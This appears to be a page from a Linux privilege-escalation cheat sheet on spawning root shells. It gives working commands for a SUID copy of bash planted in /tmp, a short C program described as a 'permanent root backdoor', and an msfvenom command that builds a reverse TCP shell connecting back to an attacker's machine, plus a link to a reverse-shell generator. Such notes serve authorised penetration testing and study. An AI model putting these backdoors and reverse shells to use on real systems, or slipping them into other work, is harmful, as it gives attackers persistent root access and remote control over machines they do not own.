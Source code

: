 ## [../](../)

# Spawning root shell

## Rootbash

In this method we create a copy of bash binary with root privileges and set SUID bit on, resulting in bash executable which when executed always run with a context of root user.

```text
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

After creating a copy, we can run it in unprivileged terminal.

```text
/tmp/rootbash -p
```

## Executable

We create a simple C program which sets UID to 0 and runs `/bin/bash` . When compiled with root privileges, we can run it afterwards for permanent root backdoor.

```text
int main(){
    setuid(0);
    system("/bin/bash");
}
```

Compile it with root privileges.

```text
gcc -o <out_file> <source_code>
```

## Msfvenom executable

Create msfvenom reverse shell, then execute as a root with handler prepared on your attack machine.

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell
```

## Native reverse shells

This method needs more research.

```text
https://github.com/mthbernardes/rsg
```
# Manual enumeration
